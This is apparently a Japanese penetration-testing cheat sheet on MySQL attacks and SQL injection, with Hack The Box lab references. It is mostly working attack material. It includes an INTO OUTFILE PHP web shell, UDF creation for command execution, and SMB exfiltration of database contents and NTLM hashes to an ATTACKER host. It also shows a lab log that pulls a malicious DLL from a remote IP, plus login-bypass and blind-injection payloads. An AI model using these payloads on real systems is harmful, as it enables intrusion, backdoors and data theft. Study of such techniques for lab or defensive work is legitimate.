 # Scenario
----

* MySQLへの攻撃シナリオは大別して３つが存在する
   1. **クライアントが攻撃者端末、サーバが被害者端末のケース**
      
      * （例１）被害者端末でMySQLのポートが公開。攻撃者は被害者端末のデータベースへアクセス可能
   1. **クライアントが被害者端末、サーバが被害者端末のケース**
      * （例２）SQL Injectionが成立
      * （例３）phpMyAdminなどのクライアントツールが被害者端末で公開。攻撃者は前記クライアントツールへアクセス可能
      * （例４）mysqlが高権限で動作。低権限で被害者端末に侵入した攻撃者がデータベースへアクセス可能
   1. **クライアントが被害者端末、サーバが攻撃者端末のケース**
      * （例５）Adminerなどの、データベースを指定可能なクライアントツールが被害者端末で公開。攻撃者は前記クライアントツールへアクセス可能
        * HTB: Admirer
      
          ![Adminer](images/Adminer.png)
   
* シナリオおよび、データベースへアクセスするクレデンシャルの権限如何で、MySQLにおいて活用可能な構文が異なる

  | Description                                   | Command                                                      |
  | --------------------------------------------- | ------------------------------------------------------------ |
  | クライアントからDBにファイルを読み込み        | `load data local infile '/etc/passwd' into table dummy`      |
  | クライアントにDBからファイルを書き出し        | `select '<?php echo system($_GET["cmd"]); ?>' into outfile '/var/www/html/shell.php'` |
  | サーバからDBにファイルを読み込み              | `select load_file('/etc/passwd')`                            |
  | サーバにDBからファイルを書き出し              | なし                                                         |
  | 関数生成（`%MYSQL_HOME%\lib\plugin\udf.dll`） | `create function sys_exec returns int soname 'udf.dll'`      |
  | smbを利用したファイル書き出し                 | `select @@version into outfile '\\\\ATTACKER\\public\\file'` |
  | smbを利用したファイル読み出し                 | `select load_file('\\\\ATTACKER\\public\\file')`             |

* 攻撃のパターンは次のようになる。
  1. データベース内のクレデンシャルの漏洩
  2. データベース内に任意のクレデンシャルを追加することによるログインバイパス
  3. 「DBからファイルを書き出し」を利用した、PHPなどのバックドアの作成
  4. 「DBにファイルを読み込み」を利用した、id_rsaやdatabase.phpなどのクレデンシャルの漏洩
  5. 「smbを利用した」を利用したNet-NTLMハッシュの漏洩
  6. 「smbを利用した」を利用したデータベース内のクレデンシャルの漏洩
     * `select * from users into outfile '\\\\ATTACKER\\public\\file`
     * `select load_file(concat('\\\\ATTACKER\\public\\', version()))`
  7. 「DBからファイルを書き出し」と「関数生成」を利用した権限昇格
     HTB: Bastarda
  
     ```console
     Image Name                     PID Session Name        Session#    Mem Usage
     ========================= ======== ================ =========== ============
     System Idle Process              0                            0         24 K
     System                           4                            0        304 K
     smss.exe                       236                            0      1.032 K
     csrss.exe                      320                            0      4.220 K
     wininit.exe                    364                            0      4.188 K
     csrss.exe                      388                            1      7.672 K
     winlogon.exe                   440                            1      4.152 K
     services.exe                   480                            0      7.500 K
     lsass.exe                      488                            0      9.976 K
     lsm.exe                        496                            0      3.608 K
     svchost.exe                    588                            0      9.388 K
     svchost.exe                    660                            0      7.332 K
     LogonUI.exe                    744                            1     17.236 K
     svchost.exe                    752                            0     10.796 K
     svchost.exe                    792                            0     29.652 K
     svchost.exe                    824                            0     13.420 K
     svchost.exe                    896                            0      4.900 K
     svchost.exe                    936                            0     14.336 K
     svchost.exe                    256                            0     12.020 K
     spoolsv.exe                    868                            0     10.740 K
     svchost.exe                    264                            0      8.224 K
     mysqld.exe                    1052                            0     38.000 K
     svchost.exe                   1152                            0      2.580 K
     VGAuthService.exe             1208                            0     10.492 K
     vmtoolsd.exe                  1272                            0     18.108 K
     ManagementAgentHost.exe       1300                            0      9.264 K
     svchost.exe                   1332                            0     10.824 K
     WmiPrvSE.exe                  1636                            0     13.556 K
     dllhost.exe                   1904                            0     11.216 K
     msdtc.exe                     1992                            0      7.700 K
     sppsvc.exe                    2540                            0     10.576 K
     w3wp.exe                      1872                            0     12.828 K
     conhost.exe                   2784                            0      2.324 K
     mysql.exe                     2852                            0      5.132 K
     cmd.exe                       2752                            0      3.124 K
     conhost.exe                   1896                            0      2.356 K
     nc.exe                        2280                            0      3.380 K
     cmd.exe                       2964                            0      3.248 K
     tasklist.exe                   860                            0      5.308 K
     
     C:\>echo select load_file('\\\\10.10.17.187\\public\\lib_mysqludf_sys_64.dll') into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.5\\lib\\plugin\\udf.dll' | mysql -u root -pmysql123!root -D drupal
     C:\>echo create function sys_exec returns int soname 'udf.dll' | mysql -u root -pmysql123!root -D drupal
     C:\>echo select sys_exec('whoami'); | mysql -u root -pmysql123!root -D drupal
     sys_exec('whoami')
     0
     
     C:\>
     ```

# SQL Injection
----

* Basics
  * SQL Injectionにおけるパラメータは基本的に「特殊記号」＋「実現したい処理」＋「コメントアウト記号」で構成可能
  * 「コメントアウト記号」を挿入し、エラーが発生しないような「特殊記号」を調査し、「実現したい処理」を挿入する
  * （例）`select * from users where username = '%s' and password = '%s' limit 1`
    1. 「コメントアウト記号」の挿入
          * `select * from users where username = 'admin' and password = ';--' limit 1`
          * SQL構文として正しくないため、エラーが発生する（エラーが観測できない場合も存在する）
    1. エラーが発生しないような特殊記号の挿入
          * `select * from users where username = 'admin' and password = '';--' limit 1`
          * SQL構文として正しいため、エラーは発生しない（ただし、ログインは失敗する）
    1. 「実現したい処理」の挿入
          * `select * from users where username = 'admin' and password = '' or 1 = 1;--' limit 1`
          * ログインに成功する
  * [ffuf](https://github.com/ffuf/ffuf)を利用することで、ステップ２の自動化が可能
    * `ffuf -u http://example.com/test?param=FUZZ;-- -w ./SecLists/Fuzzing/special-chars.txt -mc all`
* Blind SQL Injection
  * 「実現したい処理」は次のような処理になることが多い
  * `and substr((select password from users limit 1), $i, 1) = '$c'`
    * `substr`の第２引数のインデックスは1から始まることに注意
  * パスワードの推定の場合、`$i`は40文字程度まで試行する
    * sha1が20バイトのため、16進数表記で40文字
  * パスワード推定の場合、`$c`は16進数で使用する文字および$に限定可能である
    * `[a-f0-9$]`

